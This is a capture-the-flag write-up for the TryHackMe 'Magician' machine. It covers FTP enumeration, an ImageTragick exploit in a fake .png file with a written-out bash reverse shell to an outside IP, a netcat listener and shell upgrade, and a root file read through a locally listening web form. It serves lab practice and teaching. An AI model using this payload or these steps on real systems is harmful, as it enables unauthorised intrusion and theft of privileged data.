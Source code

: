<h1> Tryhackme Magician Machine </h1>
<h3>by purpler0se</h3>
	<p>...enjoy :D</p>
<h5> https://tryhackme.com/room/magician </h5>
<h4>Created by M0N573R777 and ripcurlz</h4>
<h2> Starting off with basic enumeration to get our ports </h2>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/nmap.png">
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/etc.png">
	<h4> Now remembering what was instructed in the info for task one which was "Please add the IP address of this machine with the hostname 'magician'
		to your /etc/hosts file on linux before you start." (example above)</h4>
<h3> I checked out ftp port logging in as "anonymous" user with no password</h3><h4> ftp [MACHINE_IP] 21 </h4>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/ftp.png">
<h3> I got prompted with this as i logged in. It told me a clue that will help us later in our payload</h3>
	</h4>https://imagetragick.com</h4>
</br>
<h1>Web enumeration</h1>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/convert.png">

<h3> Port 8081 had a png to jpg converted which is the ticket for our way in :D</h3>
	<h4>but port 8080,for now had nothing intresting</h4>
	<h3> with that given link (https://imagetragick.com) we can create a reverse shell payload</h3>
</br>
<h1> Creating the Png Payload </h2>
	<h3>On you local create a file with the extension .png shown in the commands below</h3>
		<h4>touch reverse.png</h4>
		<h4> nano reverse.png</h4>
	<h3>Paste this code in using an editor like vim or nano</h3>
		<h4>push graphic-context</h4>
		<h4>viewbox 0 0 640 480</h4>
		<h4>fill 'url(https://example.com";bash -c \'bash -i >& /dev/tcp/10.9.1.225/1557 0>&1\'")'</h4>
		<h4>pop graphic-context</h4>
		<h3>I've changed the original payload at https://imagetragick.com so it gives us a shell, further explaination of this exploit CVE-2016-3174 at https://imagetragick.com</h3></br>
			<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/payload.png">
		<h4>Your payload should look like this and when you run "file" on the payload u should get "ImageMagick Vector Graphic"</h4>
<h1> Getting a shell</h1>
	<h3>Setup a netcat listner on your local machine</h3>
	<h4> nc -lnvp [any_port]</h4>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/upload.png">
	<h3> Now upload that payload and onces its submitted click on it and then just wait for a callback</h3>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/shell.png">
	<h3>Once you get the callback upgrade your shell by doing the following commands</h3>
	<h4>export TERM=xterm</h4>
	<h4>python3 -c "import pty;pty.spawn('/bin/bash')"</h4>
	<h4>CTRL + Z</h4>
	<h4>BASH: stty raw -echo && fg</br>
	ZSH: stty raw -echo; fg
	</h4>
	<h4> and then WHACK your enter key 3x</h4>
	<h4> stty rows [yours] cols [yours] (You can find your rows and columns by doing stty -a on your local machine)</h4>
<h1> From Magician to ROOT</h1>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/hint.png">
	<h3>We got a hint in the home directory magician, file named "the_magic_continues," the giveaway to the priv esc is "locally listening" therefore its a internal ip priv esc 			situation.We can list the listening connection on the targets machine by doing</h3>
	<h4>netstat -ant</h4>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/ips.png">
	<h3>As you can see the localhost on port 6666 is listening. I did the following command</h3>
		<h4> curl 127.0.0.1:6666</h4>
	<h3>And got the code for a simple input website </h3>
	<h3>Now reading the source code u can see there is a input with the name "filename" so the code i used to send to this input is</h3>
		<h4>curl --request POST 'http://127.0.0.1:6666' --data "filename=/root/root.txt"</h4>
	<h3>I decrypted this by going to https://gchq.github.io/CyberChef/ and using the "From Hex" to get the THM{} flag</h3>
discord - purpler0se#6981
<h1> Thanks for reading my writeup on how i tackled this machine</h1>
	
	
	
	
